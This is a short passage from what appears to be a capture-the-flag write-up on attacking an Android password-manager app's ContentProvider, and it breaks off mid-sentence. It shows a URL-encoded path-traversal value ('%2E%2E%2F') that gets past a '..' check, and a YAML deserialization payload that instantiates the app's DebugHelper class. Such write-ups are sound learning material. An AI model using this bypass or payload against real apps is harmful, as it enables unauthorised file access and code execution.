 ```java

    // Close the ParcelFileDescriptor
    pfd.close();
}
```

but in this case i dont know why canot direcly specific the location to files/debugger
maybe because of this ?
```java
static {
    UriMatcher uriMatcher2 = new UriMatcher(-1);
    uriMatcher = uriMatcher2;
    uriMatcher2.addURI(AUTHORITY, "files/*", 1);
}
```

then 
`if (uri.toString().contains(".."))` looks suspicious
since it using Uri that means we can do URI encoding to bypass .. 
to `%2E%2E%2F`
so the location will be
`%2E%2E%2Ffiles%2Fdebugger`

and the last thing we need to write into pwds.yml also to add the yaml injection
the injection will be

```yml
debugMePls:
  autoStart: !!com.aimardcr.pwdmanager.DebugHelper [True]
```

for the first i got android.os.NetworkOnMainThreadException when my malicious app run the http request thats because
